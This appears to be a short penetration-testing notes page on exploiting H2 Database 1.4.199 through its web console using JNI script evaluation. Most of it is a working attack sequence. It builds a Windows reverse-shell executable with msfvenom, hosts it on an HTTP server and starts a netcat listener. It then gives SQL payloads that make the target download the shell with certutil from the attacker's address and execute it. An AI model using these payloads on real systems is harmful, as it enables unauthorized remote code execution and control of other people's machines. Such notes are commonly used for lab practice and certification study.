 ```yaml
---
description: Version 1.4.199
---
```


# H2 Database Engine

H2 Database 1.4.199 - JNI Code Execution

[https://www.exploit-db.com/exploits/49384](https://www.exploit-db.com/exploits/49384)

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

Basically, you find a console, add each payload run the commands above.&#x20;

<figure><img src="../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Create a shell 
Kali> msfvenom -p windows/x64/shell_reverse_tcp -f exe -o shell.exe LHOST=192.168.45.183 LPORT=8082

Kali> sudo python -m http.server 80

Kali> rlwrap nc -nlvp 8082

# For -- Evaluate script 
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -urlcache -split -f http://192.168.45.183/shell.exe C:/Windows/Temp/shell.exe").getInputStream()).useDelimiter("\\Z").next()');

CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("C:/Windows/Temp/shell.exe").getInputStream()).useDelimiter("\\Z").next()');

```
{% endcode %}
